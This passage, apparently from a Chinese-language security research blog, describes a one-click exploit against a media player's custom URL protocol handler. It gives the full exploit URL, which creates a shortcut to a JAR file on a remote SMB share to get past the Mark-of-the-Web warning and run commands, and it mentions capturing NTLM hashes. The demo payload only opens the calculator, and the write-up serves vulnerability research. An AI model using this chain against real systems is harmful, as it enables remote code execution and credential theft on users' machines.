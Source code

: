 除了获取 NTLM Hash，我们还可以在 Ubuntu 上开一个 SMB 服务，然后将`url`参数设为使用`\\172.16.176.176\share\Test.exe`，使用快捷方式打开共享文件，发现确实可以打开 EXE 文件，但是会有文件信任的安全警告（Mark-of-the-Web）。

[![](assets/1703487068-c1f649fa80f251323552421b938e5ab2.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756160973381.jpg)

这里可以通过`jar`文件形式去绕过，打包一个打开计算器的 Jar 包放在共享目录下，然后将`url`参数设为使用`\\172.16.176.176\share\1.jar`。

[![](assets/1703487068-26646c300c6ac6fd4e64fb08a05b59aa.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756162884409.jpg)

访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.jar&name=123`，创建快捷方式，打开快捷方式，执行 Jar 包启动计算器，这样我们就实现了 1 Click 执行任意命令。

